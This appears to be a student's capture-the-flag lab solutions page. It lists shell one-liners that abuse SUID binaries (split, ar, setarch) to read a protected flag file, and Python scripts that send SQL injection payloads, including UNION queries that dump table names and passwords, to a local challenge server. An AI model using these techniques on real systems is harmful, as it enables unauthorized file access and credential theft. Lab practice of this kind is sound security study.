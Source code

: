 # Lab 2

**Note** : [Back to index](index.md)

## SUID Exploitation

* Level 16

```bash
split /flag

cat xaa
```


* Level 21 

``` bash
ar r inter /flag

cat inter
```
* Level 30 

``` bash
setarch --uname-2.6 cat /flag
```
## SQLi 

* Level 3 
``` python 
import requests 

URL = "http://challenge.localhost:80/?user=1" 

r = requests.get(url = URL) 

print(r.content)
```

* Level 4
``` python
import requests 

form = { "username" : 'flag" --', "password" : "idk", } 

response = requests.post("http://challenge.localhost/", data=form) 

print(response,"\n",response.text)
```

* Level 6

``` python
import requests 

params = {"query": '" UNION SELECT tbl_name from sqlite_master --'} 

response = requests.post("http://challenge.localhost/", params=params) 

t_name = response.text.strip()

params = {"query": f'" UNION SELECT password from {t_name} --' }

response = requests.post("http://challenge.localhost/", params=params) 

print(response.text.strip())
```
